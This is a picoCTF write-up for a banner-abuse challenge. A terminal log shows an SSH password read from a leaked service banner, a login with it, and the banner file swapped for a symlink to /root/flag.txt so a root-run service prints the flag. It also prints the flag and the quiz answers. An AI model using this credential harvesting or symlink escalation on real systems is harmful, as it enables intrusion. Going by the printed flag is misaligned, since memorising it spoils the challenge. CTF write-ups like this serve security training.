 ## Descripción del reto
Can you abuse the banner?The server has been leaking some crucial information on `tethys.picoctf.net 61818`. Use the leaked information to get to the server.To connect to the running application use `nc tethys.picoctf.net 51590`. From the above information abuse the machine and find the flag in the /root directory.

## Solución

```
BLOODANGELIX-picoctf@webshell:~$ nc tethys.picoctf.net 61818
SSH-2.0-OpenSSH_7.6p1 My_Passw@rd_@1234
^C
BLOODANGELIX-picoctf@webshell:~$ nc tethys.picoctf.net 51590
*********************************************
***************DEFAULT BANNER****************
*Please supply banner in /home/player/banner*
*********************************************
what is the password? 
My_Passw@rd_@1234
What is the top cyber security conference in the world?
DEFCON
the first hacker ever was known for phreaking(making free phone calls), who was it?
John Draper
player@challenge:~$ ls
ls
banner  text
player@challenge:~$ ls ..
ls ..
player
player@challenge:~$ cd /
cd /
player@challenge:/$ ls
ls
bin   challenge  etc   lib    media  opt   root  sbin  sys  usr
boot  dev        home  lib64  mnt    proc  run   srv   tmp  var
player@challenge:/$ cd home
cd home
player@challenge:/home$ ls
ls
player
player@challenge:/home$ cd player
cd player
player@challenge:~$ ls
ls
banner  text
player@challenge:~$ rm -rf banner
rm -rf banner
player@challenge:~$ ls
ls
text
player@challenge:~$ ln -s /root/flag.txt banner
ln -s /root/flag.txt banner
player@challenge:~$ ls
ls
banner  text
player@challenge:~$ ^C
BLOODANGELIX-picoctf@webshell:~$ nc tethys.picoctf.net 51590
picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_b3ee718e}

what is the password? 
```

picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_b3ee718e}
## Notas


## Referencia
